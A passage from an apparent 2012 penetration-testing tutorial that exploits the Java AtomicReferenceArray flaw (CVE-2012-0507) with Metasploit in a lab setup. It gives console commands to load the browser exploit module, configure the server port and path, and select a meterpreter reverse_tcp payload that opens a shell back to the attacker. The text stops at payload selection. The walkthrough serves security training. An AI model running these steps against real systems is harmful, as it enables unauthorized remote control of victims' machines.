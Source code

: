 **Part I: Preparing the Target Machine:**

Start the “Target” Machine.  
Install the JRE 6.

**Part II:Preparing the PenTesting Machine:**

Now, start the BT5.  
  
Open the Terminal and Type “msfupdate”.  This will update the Metasploit Framework(MSF) with the latest exploits and Payloads. As CVE-2012-0507 is latest vulnerability, you have to update the MSF before proceeding further.

> **slow Internet Connection?!** If you have slow internet connection, then you can download the java\_atomicreferencearray module alone instead of updating all modules.  
> Download the  [java\_atomicreferencearray.rb](http://dev.metasploit.com/redmine/projects/framework/repository/revisions/master/raw/modules/exploits/multi/browser/java_atomicreferencearray.rb) and paste in this folder “/opt/metasploit/msf3/modules/exploits/multi/browser/”
> 
> Then, Download  [CVE-2012-0507.jar](http://dev.metasploit.com/redmine/projects/framework/repository/revisions/master/raw/data/exploits/CVE-2012-0507.jar)  and paste in this folder “/opt/metasploit/msf3/data/exploits/”

 

**Part III : **## Exploiting the Java AtomicReferenceArray Type Violation Vulnerability:

 

*  
**Step 1:*  
Open the Terminal and type “*msfconsole*“.  This will bring the Metasploit console , here you can interact with the MSF.  
  
*Step 2:*  
Type “use *exploit/multi/browser/java\_atomicreferencearray*” . This command will use the java\_atomicreferencearray.rb module for the attack.

![](http://35.160.74.13/wp-content/uploads/2012/09/using_Java_CVE-2012-0507-300x41.jpg)

  
Now type “show options” to display the which settings are available and/or required for this specific module. 

![](http://35.160.74.13/wp-content/uploads/2012/09/Show_Options-300x169.jpg)

  
  
Now type “set SRVPORT 80”.  
and  “set URIPATH /”.

![](http://35.160.74.13/wp-content/uploads/2012/09/settings_srvport-300x52.jpg)

  
  
*Step 3: Set Payload *  
Type “show payloads”, this will display the list of payloads.  We are going to use the ‘reverse\_tcp’ payload. This payload will get reverse tcp connection from the Target to PenTesting machine.  
  
Type ‘set payload java/meterpreter/reverse\_tcp’ in the console.
